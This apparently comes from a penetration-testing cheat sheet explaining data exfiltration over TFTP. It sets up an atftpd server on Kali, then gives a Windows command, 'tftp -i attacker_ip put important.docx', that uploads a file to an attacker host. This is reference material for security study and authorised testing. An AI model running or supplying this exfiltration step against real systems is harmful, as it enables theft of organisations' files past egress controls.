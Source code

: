 

### Exfill via TFTP

[TFTP](tftp.md) is a UDP-based file transfer protocol and is oftenrestricted by corporate egress firewall rules.  
Useful for systems prior to PS's default install: (Windows 7 and Windows Server 2008 R2)  
  
Setup:  
	On Kali:  
1. Install and configure a TFTP server in Kali and create a directory to store and serve files.  
```bash
sudo apt update && sudo apt install atftp
```


2. Next, we update the ownership of the directory so we can write files to it.  
```bash
sudo mkdir /tftp  
sudo chown nobody: /tftp
```

3. We will run atftpd as a daemon on UDP port 69 and direct it to use the newly created **/tftp** directory  
```bash
sudo atftpd --daemon --port 69 /tftp
```

On Windows:  
1. Run the **tftp** client  
```powershell
tftp -i attacker_ip put important.docx
```
.
- **-i** - Specify binary image transer  
- **put** - Initiates an upload